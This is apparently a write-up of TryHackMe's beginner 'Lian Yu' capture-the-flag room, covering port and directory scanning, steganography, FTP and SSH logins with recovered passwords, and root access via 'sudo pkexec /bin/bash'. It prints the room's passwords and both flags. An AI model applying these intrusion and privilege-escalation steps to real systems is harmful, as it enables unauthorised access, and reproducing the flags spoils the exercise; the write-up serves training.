

# Lian Yu


## Summary

[Lian Yu](https://tryhackme.com/room/lianyu "Lian Yu CTF on TryHackMe") is a begginer friendly, Arrowverse themed CTF hosted by [TryHackMe](https://tryhackme.com/ "TryHackMe Official Website") and created by [Deamon](https://twitter.com/User6825 "Deamon's Twitter Profile").

This CTF requires basic knowledge of:

* Port scanning with tools like ```nmap```.
* Directory/file scanning with tools like ```gobuster```.
* Viewing ```HTML``` source code.
* Getting files from an ```FTP``` server.
* Editing a files hex signature with tools like ```hexedit```.
* Extracting files from a JPEG with tools like ```steghide```.
* Connecting to remote server with ```SSH```.
* Linux privilege escalation with tools like ```GTFOBins```.

---

## Contents

* [Flag 1 - What is the Web Directory you found?](#flag-1 "Jump To Flag 1")

* [Flag 2 - What is the file name you found?](#flag-2 "Jump To Flag 2")

* [Flag 3 - What is the FTP Password?](#flag-3 "Jump To Flag 3")

* [Flag 4 - What is the file name with SSH password?](#flag-4 "Jump To Flag 4")

* [Flag 5 - user.txt](#flag-5 "Jump To Flag 5")

* [Flag 6 - root.txt](#flag-6 "Jump To Flag 6")

---

## Flag 1

As always we'll ```ping``` the target machine to make sure it's up and running.

```
$ ping <IP_Address>
PING <IP_Address> (<IP_Address>) 56(84) bytes of data.
64 bytes from <IP_Address>: icmp_seq=1 ttl=61 time=172 ms
64 bytes from <IP_Address>: icmp_seq=2 ttl=61 time=170 ms
64 bytes from <IP_Address>: icmp_seq=3 ttl=61 time=184 ms
64 bytes from <IP_Address>: icmp_seq=4 ttl=61 time=170 ms
^C
--- <IP_Address> ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 169.717/173.950/184.273/6.037 ms
```

Once we've verified the target machine is running we can move on to a port scan using ```nmap``` in aggressive mode by using the ```-A``` flag. This will return ports found, perform OS and version detection, and run additional scripts that may return useful information.

```
$ nmap -A <IP_Address>

Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37549/udp   status
|   100024  1          39577/tcp   status
|   100024  1          42645/tcp6  status
|_  100024  1          42882/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

After running the port scan we discover the following ports and services.

* 21 - ```FTP``` (File Transfer Protocol)
* 22 - ```SSH``` (Secure Shell)
* 80 - ```HTTP``` (HyperText Transfer Protocol)
* 111 - ```RPCBIND``` (Remote Procedure Call)

Our next step is to check the website hosted at port 80 where we'll be greeted with an image of "Lian Yu", a large mountainous island from the DC Universe, along with some background information on the characters from the show "Arrow".

Reviewing the source code shows nothing of interest, so our next move is using a tool like ```GoBuster``` to scan the target IP for hidden directories with a word list like [directory-list-2.3-small.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt "Small Directory Word List").

```
$ gobuster -w /path/to/wordlist -u http://<IP_Address>/

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<IP_Address>/
[+] Threads      : 10
[+] Wordlist     : /path/to/wordlist
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/01/10 10:19:55 Starting gobuster
=====================================================
/island (Status: 301)
```

After heading to the newly discovered directory named ```/island``` we should see a message that reads...

```
Ohhh Noo, Don't Talk...............
I wasn't Expecting You at this Moment. I will meet you there
You should find a way to Lian_Yu as we are planed. The Code Word is: 
```

But no code word can be seen. After that the page just goes blank.


If we highlight the text on the page we'll see the code word.


Alternatively we can view the HTML source code where we can see an ```<h2>``` element styled with white font, a method for trying to camouflage into the white background of the page.

```html
<!DOCTYPE html>
<html>
	<body>
		<h1> Ohhh Noo, Don't Talk............... </h1>
		<p> I wasn't Expecting You at this Moment. I will meet you there </p><!-- go!go!go! -->
		<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</h2>
	</body>
</html>
```

Either way will lead to the code word "```vigilante```" which, unfortunately for us, can't be used anywhere yet. So we'll have to further enumerate the machine to see what we can find.

Running another directory scan with ```gobuster``` on ```<IP_Address>/island/``` with the [directory-list-2.3-small.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt "Small Directory Word List") will reveal another directory, this one named ```/2100```.

```
$ gobuster -w /path/to/wordlist -u http://<IP_Address>/island/

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<IP_Address>/island/
[+] Threads      : 10
[+] Wordlist     : /path/to/wordlist
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/01/10 11:13:45 Starting gobuster
=====================================================
/2100 (Status: 301)
```

### [Back To Top](#lian-yu "Jump To Top")

---

## Flag 2

After visiting http://<IP_Address>/island/2100 we'll be greeted with the following screen.


At the time of writing, the video is no longer available. But it doesn't matter because what is important to us can be found in an HTML comment within the source code of this page.

```html
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>


<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```

The writer states that we can use our ```.ticket``` _here_. 

"Here" reffers to the current directory (```/island/2100```) and our ```.ticket``` looks a lot like a file extension.

So once again we'll have to use ```gobuster```, except this time instead of scanning for directories we'll have to scan for web _pages_ with the ```.ticket``` extension.

This can be done the same way we did the directory scans and simply adding the ```-x``` flag to specify an extension followed by the extension type, which in this case is ```ticket```.

```
$ gobuster -w /path/to/wordlist -u http://<IP_Address>/island/2100/ -x ticket

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<IP_Address>/island/2100/
[+] Threads      : 10
[+] Wordlist     : /path/to/wordlist
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : ticket
[+] Timeout      : 10s
=====================================================
2023/01/10 18:23:14 Starting gobuster
=====================================================
/green_arrow.ticket (Status: 200)
```

The results of the ```gobuster``` scan show a file named ```green_arrow.ticket``` has been found at the ```/2100``` directory.

### [Back To Top](#lian-yu "Jump To Top")

---

## Flag 3

After visiting ```http://<IP_Address>/island/2100/green_arrow.ticket``` we'll see the following text...

```
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
```

The ```RTy8yhBQdscX``` string looks like some sort of base encoding which we can confirm after trying to decode it with the ```From Base58``` option in [CyberChef](https://cyberchef.org/ "CyberChef Website").



```RTy8yhBQdscX --> Base58 --> !#th3h00d```

So now we have the name ```vigilante``` and the string ```!#th3h00d```.

Next we can try these out as the credentials for the FTP server on ```port 21```. We can do this by running the ```ftp``` command followed by the target machines IP address.

```
$ ftp <IP_Address>

Name: vigilante
Password: !#th3h00d

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

### [Back To Top](#lian-yu "Jump To Top")

---

## Flag 4

Now that we've succesfully logged in to the FTP server we can check what directory we're currently in with ```pwd```.

```
ftp> pwd
Remote directory: /home/vigilante
```

And what files are in the current directory with ```ls -la```.

```
ftp> ls -la
229 Entering Extended Passive Mode (|||14198|).
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
```

Let's download the three files we just discovered on the FTP server (```Leave_me_alone.png```, ```Queen's_Gambit.png```, and ```aa.jpg```). We can do this by using the ```get``` command followed by the file name.

```
ftp> get Leave_me_alone.png
local: Leave_me_alone.png remote: Leave_me_alone.png
229 Entering Extended Passive Mode (|||54830|).
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
100% |***********************************|   499 KiB  487.17 KiB/s    00:00 ETA
226 Transfer complete.
511720 bytes received in 00:01 (417.99 KiB/s)


ftp> get Queen's_Gambit.png
local: Queen's_Gambit.png remote: Queen's_Gambit.png
229 Entering Extended Passive Mode (|||65385|).
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
100% |***********************************|   537 KiB  195.98 KiB/s    00:00 ETA
226 Transfer complete.
549924 bytes received in 00:02 (184.87 KiB/s)


ftp> get aa.jpg
local: aa.jpg remote: aa.jpg
229 Entering Extended Passive Mode (|||13551|).
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
100% |***********************************|   186 KiB  183.58 KiB/s    00:00 ETA
226 Transfer complete.
191026 bytes received in 00:01 (157.69 KiB/s)
```

Before we go let's check for other users on the server by changing from the current directory into home (```cd ../```) and listing the contents (```ls -la```).

```
ftp> cd ../
250 Directory successfully changed.

ftp> ls -la
229 Entering Extended Passive Mode (|||47978|).
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 May 01  2020 .
drwxr-xr-x   23 0        0            4096 Apr 30  2020 ..
drwx------    2 1000     1000         4096 May 01  2020 slade
drwxr-xr-x    2 1001     1001         4096 May 05  2020 vigilante
226 Directory send OK.
```

Looks like there's another user named ```slade``` but we don't have the necessary permissions to view his files, so let's exit the ftp server with the ```exit``` command and take a look at those image files we downloaded.

When we run ```exiftool``` or the ```strings``` command on these images nothing immediately sticks out, but looking at the images overall something does stand out... One of these images, ```Leave_me_alone.png```, is corrupted.

Running the ```file``` command on the image to determine file type we see it's not a ```png```, Linux identifies this as ```Data```.

```
$ file Leave_me_alone.png
Leave_me_alone.png: data
```

If we take the first line from the files ```hexdump``` using a tool like ```xxd``` in Linux or dragging the file into the input section of ```CyberChef``` and selecting the ```To HexDump``` option, we'll see this...

```
00000000  58 45 6f ae 0a 0d 1a 0a 00 00 00 0d 49 48 44 52  |XEo®........IHDR|
```

And if we visit the [WikiPedia page for file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures "WikiPedia Page Of File Signatures") and use ```Ctrl + f``` with ```58 45``` (the first two bytes) we'll see that no file type has this signature.

So this might in fact be a png, just one that happened to be corrupted. If that's the case we can try to change the file signature to that of an actual png and see if that works.

On the same [WikiPedia page for file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures "WikiPedia Page Of File Signatures") we can look up the file signature for ```png``` files, which is...

```89 50 4E 47 0D 0A 1A 0A```

In order to change the signature you'll need a tool like ```hexedit``` or any other hex editor. Just make sure you edit the first line from this...

```
00000000  58 45 6f ae 0a 0d 1a 0a 00 00 00 0d 49 48 44 52  |XEo®........IHDR|
```

To this...

```
00000000  89 50 4e 47 0d 0a 1a 0a 00 00 00 0d 49 48 44 52  |.PNG........IHDR|
```

After which, if succesful, you should receive the following image...


This fixed image reveals the password is ```password``` but for what?

For this next step we'll need to use another steganography tool named ```stegide```. The ```steghide``` tool can be used to embed or extract hidden files. In this instance we'll use it to extract a password protected file from the ```aa.jpg``` file with the previously discovered password.

We can do this by running the ```steghide``` command with the ```--extract``` and ```-sf``` flags on ```aa.jpg```.

```
$ steghide --extract -sf aa.jpg
Enter passphrase: password
wrote extracted data to "ss.zip".
```

After running the previous command we'll see a zip file named [ss.zip](./Assets/ss.zip "ss.zip file") was extracted, inside of which we can find two files, [passwd.txt](./Assets/ss/passwd.txt "passwd.txt file") and [shado](./Assets/ss/shado "shado file")

Within [passwd.txt](./Assets/ss/passwd.txt "passwd.txt file") we can read the following...


```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

And in the [shado](./Assets/ss/shado "shado file") file we can find our ```SSH``` password which reads ```M3tahuman```

### [Back To Top](#lian-yu "Jump To Top")

---

## Flag 5

We have the ```SSH``` password ```M3tahuman```, now all we need is to figure out who the user is.

If you remember back when we were downloading the files from the FTP server there were two users on the system, ```vigilante``` and ```slade```, and that password doesn't work for ```vigilante``` so that only leaves ```slade```.

Connecting via ```SSH``` with the username ```slade``` and password ```M3tahuman```, we'll be greeted with the following...

```
$ ssh slade@<IP_Address>
slade@<IP_Address>'s password: M3tahuman
			      Way To SSH...
			  Loading.........Done.. 
		   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


	██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
	██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
	██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
	██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
	███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
	╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$
```

We're in, now to verify who we are (```whoami```), where we are (```pwd```), and to list all contents in the current directory (```ls -la```).

```
slade@LianYu:~$ whoami; pwd; ls -la;

slade

/home/slade

total 32
drwx------ 2 slade slade 4096 May  1  2020 .
drwxr-xr-x 4 root  root  4096 May  1  2020 ..
-rw------- 1 slade slade   22 May  1  2020 .bash_history
-rw-r--r-- 1 slade slade  220 May  1  2020 .bash_logout
-rw-r--r-- 1 slade slade 3515 May  1  2020 .bashrc
-r-------- 1 slade slade   77 May  1  2020 .Important
-rw-r--r-- 1 slade slade  675 May  1  2020 .profile
-r-------- 1 slade slade   63 May  1  2020 user.txt
slade@LianYu:~$
```

And now to grab the flag from the ```user.txt``` file.

```
slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```

```THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}```

### [Back To Top](#lian-yu "Jump To Top")

---

## Flag 6

Now that we're in the system it's time to escalate our privileges. We'll start by listing the current user's ```sudo``` permissions with the ```sudo -l``` command.

```
slade@LianYu:~$ sudo -l
[sudo] password for slade: M3tahuman

Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

It looks like we have ```sudo``` permissions to run ```pkexec```.

Looking at the [Linux manual for pkexec](https://www.linux.org/docs/man1/pkexec.html "Linux Org Manual For PkExec") we can see the following description...

> pkexec allows an authorized user to execute PROGRAM as another user. If username is not specified, then the program will be executed as the administrative super user, root. 

And if we look at the [GTFOBins entry for pkexec]("https://gtfobins.github.io/gtfobins/pkexec/") we can see the following description...

> If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

So all we need to do to gain root access to the system is run ```sudo pkexec /bin/sh```.

```
slade@LianYu:~$ sudo pkexec /bin/bash
root@LianYu:~# 
```

Now to verify who we are (```whoami```), where we are(```pwd```), and list all contents of the current directory(```ls -la```).

```
root@LianYu:~# whoami; pwd; ls -la;

root

/root

total 28
drwx------  3 root root 4096 May  1  2020 .
drwxr-xr-x 23 root root 4096 May  1  2020 ..
-rw-------  1 root root   22 May  1  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 May  1  2020 .gnupg
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rw-r--r--  1 root root  340 May  1  2020 root.txt
root@LianYu:~# 
```

And finally, to read the ```root.txt``` file for our last flag.

```
root@LianYu:~# cat root.txt

                          Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.

THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

```THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}```

---

### [Back To Top](#lian-yu "Jump To Top")
